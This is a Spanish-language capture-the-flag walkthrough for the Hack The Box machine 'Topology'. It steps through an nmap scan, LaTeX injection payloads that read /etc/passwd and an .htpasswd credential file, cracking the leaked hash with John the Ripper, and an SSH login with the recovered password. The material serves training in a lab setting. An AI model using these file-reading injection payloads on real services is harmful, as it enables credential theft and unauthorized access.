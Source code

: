 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=60&color=19AC26FF&width=500&height=80&lines=Topology"></a>
</p>

**Online:** https://app.hackthebox.com/machines/546

**Paso 1:**

Escanear todos los puertos que estén abiertos con Nmap.

```
sudo nmap -sS -sV 10.10.11.217
```

<p align="center">
<img src="./Img/escaneo.png">
</p>

Como podemos observar tiene abierto los puertos 80 para HTTP y 22 para ssh, vamos a acceder a la direccion IP en nuestro navegador, luego vamos acedder a **LaTeX Equation Generator** y no saldra error al cargar la pagina ya que no tenemos agregado el dominio a nuestra lista de hosts.

<p align="center">
<img src="./Img/web.png">
</p>

**Paso 2:**

Primero vamos a editar el fichero etc/hosts y agregar el sgiuiente dominio:

```
10.10.11.217    latex.topology.htb
```

<p align="center">
<img src="./Img/dominio.png">
</p>

**Paso 3:**

Ahora vamos a acceder en **LaTeX Equation Generator** y nos pedira que ingresemos un código de látex y vamos a ingresar en orden los siguientes codigos:

<p align="center">
<img src="./Img/latex.png">
</p>

```latex
$\lstinputlisting{/etc/passwd}$

$\lstinputlisting{/var/www/dev/.htaccess}$

$\lstinputlisting{/var/www/dev/.htpasswd}$
```

nos dara un hash, creamos un archivo sin extencion y guardamos el hash **vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0**

<p align="center">
<img src="./Img/hash.png">
</p>

```
nano hash
```

**Paso 4:**

Ahora usaremos John the Ripper para decifrar el hash

```
sudo john hash --show
```

<p align="center">
<img src="./Img/john.png">
</p>

nos dara como usuario y contraseña **vdaisley:calculus20**

**Paso 5:**

Ahora vamosa conectarnos mediante ssh ingresando la contraseña que obtuvimos:

```
sudo ssh vdaisley@10.10.11.217
```

por ultimo leemos el archivo **user.txt** y nos dara como resultado la bandera.